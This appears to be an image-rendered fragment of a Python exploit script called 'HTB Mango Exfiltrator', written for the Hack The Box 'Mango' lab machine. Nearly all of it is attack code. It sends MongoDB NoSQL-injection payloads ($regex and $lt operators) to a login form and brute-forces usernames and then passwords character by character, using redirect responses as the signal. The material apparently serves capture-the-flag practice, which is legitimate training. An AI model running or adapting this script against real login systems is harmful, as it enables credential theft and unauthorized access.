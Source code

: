 ```python
    if user:
        print() # line break
        log.info(colored(f'Exfiltrating ', 'blue') + colored(user, 'cyan') + colored('\'s password...', 'blue'))

    exfiltrated_list = []
    working_list = ['']
    chars = string.ascii_letters + string.digits + '!"#%\'()+,-/:;<=>@[]_`{}~ '
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Host': 'staging-order.mango.htb'
    }
    url = 'http://staging-order.mango.htb/'
    wildcard = 1

    brute_status = log.progress(colored('Brute-force status', 'blue'))

    while True:
        for c in chars:
            if user:
                data = 'username={}&password[$regex]=^{}{}.*&login=login'.format(user, working_list[0], c)
            else:
                data = 'username[$regex]=^{}{}.*&password[$lt]=~&login=login'.format(working_list[0], c)
            brute_status.status(colored(data, 'cyan'))
            r = requests.post(url, headers=headers, data=data, allow_redirects=False)
            if r.status_code == 302:
                working_list.append(f'{working_list[0]}{c}')
                wildcard = 1337

        else:
            if wildcard == 1:
                exfiltrated_list.append(working_list[0])
                log.info(colored('Dumped: ', 'blue') + colored(working_list[0], 'cyan'))
            else:
                wildcard = 1

            del working_list[0]
            if not working_list:
                brute_status.success(colored('completed!', 'light_green'))
                return exfiltrated_list
            
def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Mango Exfiltrator =)"
    )
    parser.add_argument('-t', '--target', dest='target', required=True)
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        target = args.target

        print()
        users = exploit(target)
        for user in users:
            exploit(target, user)
        sys.exit(0)

    except KeyboardInterrupt:
        print(colored('\n[!] Keyboard interrumpt detected. Quitting!', 'yellow', attrs=['bold']))
```